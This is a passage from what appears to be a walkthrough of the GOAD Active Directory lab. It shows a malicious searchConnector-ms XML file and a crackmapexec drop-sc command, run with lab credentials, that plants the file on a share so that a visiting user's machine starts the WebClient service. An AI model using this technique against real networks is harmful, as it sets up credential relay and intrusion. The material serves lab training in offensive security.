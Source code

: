 ```
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription
xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
<description>Microsoft Outlook</description>
<isSearchOnlyItem>false</isSearchOnlyItem>
<includeInStartMenuScope>true</includeInStartMenuScope>
<templateInfo>
<folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
</templateInfo>
<simpleLocation>
<url>https://whatever/</url>
</simpleLocation>
</searchConnectorDescription>
```

- Or we could also do that with the cme module **drop-sc**

```bash
cme smb castelblack.north.sevenkingdoms.local -u arya.stark -p 'Needle' -d north.sevenkingdoms.local -M drop-sc
```

![part13_drop-sc.png](/assets/blog/GOAD/part13_drop-sc.png)

- Now we visit the share with our victim khal.drogo rdp session : `\\castelblack\all`
- And as soon as we enter the folder the webclient service start :

![part13_drop-sc-start-webclient.png](/assets/blog/GOAD/part13_drop-sc-start-webclient.png)

>Just to be clear here we are connected as khal drogo on braavos. The malicious document is on castelblack. When khal visit the share all on castelblack containing our malicious document, the webclient service start on braavos (kahl's client machine)

- We can verify it with cme too :

![part13_cme-webclient.png](/assets/blog/GOAD/part13_cme-webclient.png)
